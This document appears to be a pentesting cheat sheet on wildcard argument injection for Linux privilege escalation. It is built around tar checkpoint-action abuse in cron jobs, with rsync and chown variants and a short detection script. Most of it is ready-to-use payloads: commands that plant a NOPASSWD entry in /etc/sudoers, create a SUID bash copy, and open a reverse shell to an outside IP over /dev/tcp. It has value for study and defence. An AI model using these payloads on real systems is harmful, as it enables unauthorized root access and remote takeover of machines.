 # 🌟 Wildcard Abuse

## 🎯 Overview

Wildcard characters (`*`, `?`, `[]`) interpreted by shell can be abused to inject command arguments in scripts and cron jobs for privilege escalation.

## 🌟 Wildcard Characters

| Character | Function |
|-----------|----------|
| `*` | Matches any number of characters |
| `?` | Matches single character |
| `[]` | Matches characters in brackets |
| `~` | User home directory |
| `-` | Range in brackets |

## 🎯 tar Command Abuse (Most Common)

### Vulnerable Cron Job Example
```bash
# Cron job with wildcard
*/01 * * * * cd /home/user && tar -zcf backup.tar.gz *
```

### Exploitation Steps
```bash
# 1. Create malicious script
echo 'echo "user ALL=(root) NOPASSWD: ALL" >> /etc/sudoers' > root.sh

# 2. Create argument injection files
echo "" > "--checkpoint-action=exec=sh root.sh"
echo "" > --checkpoint=1

# 3. Wait for cron execution
# 4. Check sudo privileges
sudo -l
```

**How it works:** Wildcard `*` expands to all filenames, making tar execute:
```bash
tar -zcf backup.tar.gz --checkpoint=1 --checkpoint-action=exec=sh root.sh
```

## 🔧 Other Vulnerable Commands

### rsync Abuse
```bash
# Vulnerable: rsync -av * /backup/
echo "" > "-e sh payload.sh"
echo 'cp /bin/bash /tmp/rootbash; chmod 4755 /tmp/rootbash' > payload.sh
```

### chown Abuse  
```bash
# Vulnerable: chown root:root *
echo "" > "--reference=/etc/passwd"
# Makes files owned by root
```

## 🔍 Detection & Enumeration

### Find Vulnerable Scripts
```bash
# Search for wildcard usage in scripts
grep -r "tar.*\*" /etc/cron* /opt/ /usr/local/ 2>/dev/null
grep -r "rsync.*\*" /etc/cron* /opt/ /usr/local/ 2>/dev/null

# Check crontab for wildcards
cat /etc/crontab | grep "\*"
```

### Quick Check Script
```bash
#!/bin/bash
echo "=== WILDCARD ABUSE CHECK ==="

echo "[+] Cron jobs with wildcards:"
cat /etc/crontab 2>/dev/null | grep "\*" | grep -v "^#"

echo "[+] Scripts using tar with wildcards:"
find /opt /usr/local -name "*.sh" -exec grep -l "tar.*\*" {} \; 2>/dev/null

echo "[+] Current directory writable for injections:"
test -w . && echo "WRITABLE: $(pwd)"
```

## 🚀 Common Payloads

### Add Sudo Privileges
```bash
echo 'echo "user ALL=(root) NOPASSWD: ALL" >> /etc/sudoers' > root.sh
echo "" > "--checkpoint-action=exec=sh root.sh"
echo "" > --checkpoint=1
```

### Create SUID Binary
```bash
echo 'cp /bin/bash /tmp/rootbash; chmod 4755 /tmp/rootbash' > suid.sh
echo "" > "--checkpoint-action=exec=sh suid.sh"  
echo "" > --checkpoint=1
```

### Reverse Shell
```bash
echo 'bash -i >& /dev/tcp/10.10.14.1/4444 0>&1' > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
```

## 🔑 Key Points

- **Wildcards expand to filenames** - creating fake arguments
- **tar is most common target** - `--checkpoint-action=exec`
- **Works with cron jobs** - automatic execution as different user
- **File creation required** - need write access to target directory
- **Timing matters** - wait for scheduled execution

---

*Wildcard abuse turns shell expansion features against the system - transforming filename globbing into arbitrary command execution for privilege escalation.* 